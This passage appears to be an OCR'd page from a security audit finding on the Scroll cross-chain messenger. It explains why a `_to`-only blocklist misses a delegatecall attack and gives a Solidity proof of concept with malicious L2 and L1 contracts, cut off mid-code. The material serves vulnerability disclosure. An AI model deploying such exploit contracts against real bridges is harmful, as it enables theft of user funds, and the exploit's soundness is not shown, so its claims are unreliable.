 ### Blocklist Bypass Verification

The blocklist in `relayMessageWithProof` only checks the `_to` parameter:

```solidity
if (_to == messageQueueV1 || _to == messageQueueV2 || _to == enforcedTxGateway) {
    revert ErrorForbidToCallMessageQueue();
}
```

This does not prevent the delegatecall attack because:
1. The attacker's contract is not on the blocklist
2. The delegatecall to `L1ScrollMessenger.sendMessage` is not checked by the blocklist

## Proof of Concept

Here's a simplified proof of concept for the delegatecall attack:

```solidity
// MaliciousL2Contract.sol
contract MaliciousL2Contract {
    IL2ScrollMessenger public messenger;
    
    constructor(address _messenger) {
        messenger = IL2ScrollMessenger(_messenger);
    }
    
    function sendAttackMessage(address maliciousL1Contract) external {
        bytes memory message = abi.encodeWithSignature("execute()");
        messenger.sendMessage(maliciousL1Contract, 0, message, 1000000);
    }
}

// MaliciousL1Contract.sol
contract MaliciousL1Contract {
    // Match storage layout of L1ScrollMessenger
    address public xDomainMessageSender;
    address private __counterpart;
    address public feeVault;
    // Other storage variables...
    
    address public l1ScrollMessenger;
    address public targetContract;
    
    constructor(address _l1ScrollMessenger, address _feeVault) {
        l1ScrollMessenger = _l1ScrollMessenger;
        feeVault = _feeVault;
        xDomainMessageSender = address(1); // DEFAULT_XDOMAIN_MESSAGE_SENDER
    }
    
    function execute() external payable {
        // During this call, xDomainMessageSender is set to MaliciousL2Contract
        
        // Prepare the message to send to L2
        bytes memory message = abi.encodeWithSignature(
            "someFunction(address,uint256)",
            address(this),
            1000000
        );
        
        // Delegatecall to L1ScrollMessenger.sendMessage
        (bool success, ) = l1ScrollMessenger.delegatecall(
            abi.encodeWithSignature(
                "sendMessage(address,uint256,bytes,uint256)",
                targetContract,
```